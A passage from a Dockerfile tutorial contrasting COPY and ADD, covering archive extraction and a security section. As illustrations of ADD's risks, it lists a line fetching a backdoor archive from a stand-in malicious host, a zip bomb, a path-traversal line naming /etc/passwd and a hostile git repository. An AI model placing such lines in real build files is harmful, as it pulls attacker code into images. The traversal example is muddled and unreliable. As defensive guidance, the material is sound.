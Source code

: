 **Expected Directory Structure:**
```
/var/www/
├── index.html
├── css/
└── js/

/opt/
├── app.py
├── requirements.txt
└── config/

/etc/myapp/
├── app.conf
└── logging.conf
```

### Extraction Control
```dockerfile
# Prevent extraction by changing destination filename
ADD app.tar.gz /app/archive.tar.gz
# Result: File copied as archive.tar.gz (not extracted)

# Force extraction to specific directory
ADD app.tar.gz /app/extracted/
# Result: Contents extracted to /app/extracted/
```

---

## 🔒 Security Implications

### COPY Security Advantages
```dockerfile
# COPY is more secure - limited functionality
COPY trusted-local-file.txt /app/

# Cannot be exploited for:
# - Arbitrary URL downloads
# - Automatic extraction of malicious archives
# - Git repository cloning
```

### ADD Security Risks
```dockerfile
# ADD has more attack vectors:

# 1. Malicious URL downloads
ADD https://malicious-site.com/backdoor.tar.gz /app/

# 2. Zip bombs (highly compressed malicious archives)
ADD suspicious-archive.zip /app/

# 3. Directory traversal in archives
ADD ../../../etc/passwd /app/  # If archive contains path traversal

# 4. Git repository with malicious hooks
ADD https://github.com/malicious/repo.git /app/
```
